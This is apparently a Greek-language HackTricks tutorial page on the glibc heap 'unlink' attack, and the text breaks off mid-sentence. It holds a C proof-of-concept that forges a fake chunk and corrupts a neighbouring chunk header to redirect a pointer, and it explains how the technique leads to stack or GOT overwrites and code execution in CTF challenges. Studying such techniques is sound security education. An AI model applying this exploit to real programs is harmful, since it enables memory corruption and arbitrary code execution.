 # Επίθεση Unlink

<details>

<summary><strong>Μάθετε το χάκινγκ στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι υποστήριξης του HackTricks:

* Αν θέλετε να δείτε την **εταιρεία σας διαφημισμένη στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα τηλεγραφήματος**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε τα χάκινγκ κόλπα σας υποβάλλοντας PRs** στα [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του GitHub.

</details>

## Βασικές Πληροφορίες

Όταν ανακαλύφθηκε αυτή η επίθεση, κυρίως επέτρεπε ένα WWW (Write What Where), ωστόσο, κάποιοι **έλεγχοι προστέθηκαν** καθιστώντας τη νέα έκδοση της επίθεσης πιο ενδιαφέρουσα και πιο πολύπλοκη και **άχρηστη**.

### Παράδειγμα Κώδικα:

<details>

<summary>Κώδικας</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Η επίθεση δεν λειτουργεί εάν χρησιμοποιούνται τα tcaches (μετά την έκδοση 2.26)

### Στόχος

Αυτή η επίθεση επιτρέπει να **αλλάξει ένα δείκτη ενός κομματιού ώστε να δείχνει 3 διευθύνσεις πριν από τον εαυτό του**. Εάν αυτή η νέα τοποθεσία (γύρω από το σημείο όπου βρισκόταν ο δείκτης) έχει ενδιαφέροντα πράγματα, όπως άλλες ελέγξιμες δεσμεύσεις / στοίβα..., είναι δυνατόν να διαβάσετε/αντικαταστήσετε αυτά για να προκαλέσετε μεγαλύτερη ζημιά.

* Εάν αυτός ο δείκτης βρισκόταν στη στοίβα, επειδή τώρα δείχνει 3 διευθύνσεις πριν από τον εαυτό του και ο χρήστης πιθανόν μπορεί να το διαβάσει και να το τροποποιήσει, θα είναι δυνατόν να διαρρεύσει ευαίσθητες πληροφορίες από τη στοίβα ή ακόμη και να τροποποιήσει τη διεύθυνση επιστροφής (ίσως) χωρίς να αγγίξει το canary
* Σε παραδείγματα CTF, αυτός ο δείκτης βρίσκεται σε έναν πίνακα δεικτών προς άλλες δεσμεύσεις, επομένως, καθιστώντας τον να δείχνει 3 διευθύνσεις πριν και να μπορεί να το διαβάσει και να το γράψει, είναι δυνατόν να κάνει τους άλλους δείκτες να δείχνουν σε άλλες διευθύνσεις.\
Καθώς πιθανόν ο χρήστης μπορεί να διαβάσει/γράψει επίσης τις άλλες δεσμεύσεις, μπορεί να διαρρεύσει πληροφορίες ή να αντικαταστήσει νέα διεύθυνση σε αυθαίρετες τοποθεσίες (όπως στο GOT).

### Απαιτήσεις

* Κάποιος έλεγχος σε μνήμη (π.χ. στοίβα) για να δημιουργήσει μερικά κομμάτια δίνοντας τιμές σε μερικά από τα χαρακτηριστικά.
* Διαρροή στη στοίβα για να ορίσει τους δείκτες του ψεύτικου κομματιού.

### Επίθεση

* Υπάρχουν δύο κομμάτια (chunk1 και chunk2)
* Ο επιτιθέμενος ελέγχει το περιεχόμενο του chunk1 και τους κεφαλίδες του chunk2.
* Στο chunk1 ο επιτιθέμενος δημιουργεί τη δομή ενός ψεύτικου κομματιού:
* Για να παρακάμψει τις προστασίες, βεβαιώνεται ότι το πεδίο `size` είναι σωστό για να αποφευχθεί το σφάλμα: `corrupted size vs. prev_size while consolidating`
* και τα πεδία `fd` και `bk` του ψεύτικου κομματιού δείχνουν εκεί όπου ο δείκτης του chunk1 αποθηκεύεται με μετατοπίσεις -3 και -2 αντίστοιχα, έτσι ώστε `fake_chunk->fd->bk` και `fake_chunk->bk->fd` να δείχνουν στη θέση στη μνήμη (στοίβα) όπου βρίσκεται η πραγματική διεύθυνση του chunk1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Οι κεφαλίδες του chunk2 τροποποιούνται για να υποδεικνύουν ότι το προηγούμενο κομμάτι δεν χρησιμοποιείται και ότι το μέγεθος είναι το μέγεθος του ψεύτικου κομματιού που περιέχεται.
* Όταν απελευθερώνεται το δεύτερο κομμάτι τότε αυτό το ψεύτικο κομμάτι αποσυνδέεται:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Προηγουμένως έγινε ώστε το `fake_chunk->fd->bk` και το `fake_chunk->fd->bk` να δείχνουν στον ίδιο τόπο (τη θέση στη στοίβα όπου αποθηκευόταν το `chunk1`, έτσι ήταν μια έγκυρη συνδεδεμένη λίστα). Καθώς **και τα δύο δείχνουν στην ίδια τοποθεσία**, μόνο το τελευταίο (`fake_chunk->bk->fd = fake_chunk->fd`) θα έχει **επίδραση**.
* Αυτό θα **αντικαταστήσει τον δείκτη στο chunk1 στη στοίβα με τη διεύθυνση (ή bytes) που αποθηκεύεται 3 διευθύνσεις πριν στη στοίβα**.
* Επομένως, εάν ένας επιτιθέμενος μπορούσε να ελέγξει ξανά το περιεχόμενο του chunk1, θα μπορούσε να **γράψει μέσα στη στοίβα** είναι δυνατόν να αντικαταστήσει τη διεύθυνση επιστροφής παρακάμπτοντας το canary και να τροποποιήσει τις τιμές και τους δείκτες των τοπικών μεταβλητών. Ακόμη, τροποποιώντας ξανά τη διεύθυνση του chunk1 που αποθηκεύεται στη στοίβα σε μια διαφορετική τοποθεσία όπου εάν ο επιτιθέμενος μπορούσε να ελέγξει ξανά το περιεχόμενο του chunk1 θα μπορούσε να γράψει οπουδήποτε.
* Να σημειωθεί ότι αυτό ήταν δυνατό επειδή οι **διευθύνσεις αποθηκεύονταν στη στοίβα**. Ο κίνδυνος και η εκμετάλλευση ενδέχεται να εξαρτώνται από το **πού αποθηκεύονται οι διευθύνσεις προς το ψεύτικο κομμάτι**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Αναφορές

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Αν και θα ήταν περίεργο να βρείτε μια επίθεση unlink ακόμη και σε ένα CTF, εδώ έχετε μερικά writeups όπου χρησιμοποιήθηκε αυτή η επίθεση:
* Παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* Σε αυτό το παράδειγμα, αντί για τη στοίβα υπάρχει ένας πίνακας από διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Η επίθεση unlink πραγματοποιείται για να είναι δυνατή η δέσμευση ενός κομματιού εδώ, επομένως να είναι δυνατόν να ελέγχει τους δείκτες του πίνακα από τις διευθύνσεις που έχουν δεσμευτεί με τη μέθοδο malloc. Στη συνέχεια, υπάρχει μια άλλη λειτουργικότητα που επιτρέπει την τροποποίηση του περιεχομένου των κομματιών σε αυτές τις διευθύνσεις, η οποία επιτρέπει να δείχνουν οι διευθύνσεις στο GOT, να τροποποιούνται οι διευθύνσεις συναρτήσεων για να λάβουν διαρροές και RCE.
* Άλλο παράδειγμα CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Όπως και στο προηγούμενο παράδειγμα, υπάρχει ένας πίνακας διευθύνσεων δεσμεύσεων. Είναι δυνατόν να πραγματοποιηθεί μια επίθεση unlink για να κάνει η διεύθυνση της πρώτης δέσμευσης να δείχνει λίγες θέσεις πριν από την έναρξη του πίνακα και να αντικαταστήσει αυτή τη δέσμευση στ
